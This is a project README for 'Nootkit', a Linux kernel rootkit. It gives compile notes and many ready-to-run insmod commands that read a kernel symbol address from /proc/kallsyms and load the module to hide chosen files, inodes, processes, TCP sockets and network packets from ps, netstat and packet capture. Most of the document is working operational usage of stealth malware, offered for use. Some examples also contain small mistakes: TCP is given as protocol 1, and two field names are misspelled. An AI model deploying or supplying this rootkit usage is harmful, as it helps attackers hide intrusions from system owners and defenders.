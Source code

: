 # Nootkit

Noot noot?
![noot?](https://i.kym-cdn.com/entries/icons/original/000/040/642/terrifiednootnoot.jpg)

A basic rootkit with resource hiding capabilities.

You are welcome to browse the [story-oriented documentation](docs/section-1.md)
or give it a go.

## Compiling

Currently only Ubuntu 22 LTS kernels of version 5.15.0-76 are supported -
and to compile the module you'll have to get the corresponding headers as they aren't
included.

Headers are assumed to be located at `kernel-headers/linux-headers-5.15.0-76-generic`,
in the same exact structure as they are present on Ubuntu machines at
`/lib/modules/5.15.0-76-generic`.

## Usage

`nootkit` can receive a configuration through module parameters -
which are at the moment not exposed after the module has been loaded.

An example `insmod` command to set certain filenames and inodes to be hidden
from common usermode APIs is:

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello,bigboy \
hide_inodes=138210,17635,1337
```

### Configuration

The kernel space address of `kallsyms_lookup_name` must be provided to the module at load time,
as it is used to locate other unexported symbols.

Possible module arguments are:

- `kallsyms_lookup_name`: Must be present, can be obtained via `/proc/kallsyms` as shown above
- `hide_filenames`: Comma-separated list of file names and absolute paths to hide from usermode dir listings
- `hide_inodes`: Comma-separated list of inode numbers to hide from usermode dir listings
- `hide_sockets`: Comma-separated list of socket filter strings following the format (explained
  [below](#socket-filter-format)) - IPv4 socket matching this filter will be hidden from `netstat` commands.
- `hide_packets`: Comma-separated list of packet filter strings following the format (explained [below](#packet-filter-format))

You are also welcome to check out the [makefile](Makefile) for some semi-automatic tests.

#### Socket Filter Format

Pretty simple really, just follow this template:

```txt
IP PROTO = 6; LOCAL = 0.0.0.0/0.0.0.0:1300-1400; FOREIGN = 0.0.0.0/0.0.0.0:0-65535;
```

Where `PROTO` is a valid IP protocol number, although only TCP sockets are supported.
`PROTO` 0 is magic and matches any protocol number.

`LOCAL` describes the local IP/Mask:PortRangeStart-PortRangeEnd, and `FOREIGN` does the same for... The foreign address.

Port ranges are *inclusive*. Spaces aren't mandatory anywhere.

#### Packet Filter Format

A lot like the socket filter format above (even represented the same in memory!), but a little more detailed:

```txt
ETH PROTO = 0; ETH SRC = 00:00:00:00:00:00; ETH DST = 00:00:00:00:00:00; IP PROTO = 6; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:1300-1350;

# Or ARP for example

ETH PROTO = 0806; ETH SRC = 00:00:00:00:00:00; ETH DST = 00:00:00:00:00:00; IP PROTO = 0; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:0-65535;
```

Again the `PROTO`s are each valid protocol numbers for their respective protocol, and 0 is magic and matches all protocols.
Note that `ETH PROTO` parses input as *hexadecimal*.

## Features

### Hiding Files From Dir Listings

Examples:

#### Hide all files named `hello`, no matter the path, from dir listings

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello
```

#### In addition, hide the paths `/root/bigboy` and `/home/john/wayne`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=hello,/root/bigboy,/home/john/wayne
```

#### Hide all files with an inode number of `524290`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_inodes=524290
```

### Hiding Processes From Various Utilities

Hiding processes from various utilities including `ps` can be done by hiding the path `/proc/[pid]` corresponding
to the process. There is no specific API at the moment specific to hiding processes.

For example:

#### Hide the processes with PIDs `7047` and `682` from `ps`

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=/proc/7047,/proc/682
```

### Hiding TCP Sockets From Various Utilities

Sockets can be hidden from `netstat` and other utilities by specifying their properties in the socket filter format
shown [above](#socket-filter-format).

Example:

#### Hide all sockets bound to local TCP ports 10 to 30, on the local address 192.168.122.122

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
"hide_sockets=\"PROTO = 1; LOCAL = 192.168.122.122/255.255.255.255:10-30; FOREIGN = 0.0.0.0/0.0.0.0:0-65535;\""
```

### Hiding Packets

Packets can be hidden at a very low level - neither `AF_PACKET` sockets or even XDP BPF running in the generic
context will see them.
Packets can be hidden by specifying their properties in the packet filter format shown [above](#packet-filter-format).

Example:

#### Hide all TCP packets directed to port 1337, and all ARP packets in general

```sh
insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
"hide_packets=\" \
ETH PROTO = 0; ETH SRC = 00:00:00:00:00:00; ETH DST = 00:00:00:00:00:00; IP PROTO = 6; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:1337-1337;, \
ETH PROTO = 0806; ETH SRC = 00:00:00:00:00:00; ETHDST = 00:00:00:00:00:00; IPPROTO = 0; IP SRC = 0.0.0.0/0.0.0.0:0-65535; IP DST = 0.0.0.0/0.0.0.0:0-65535; \
\""
```

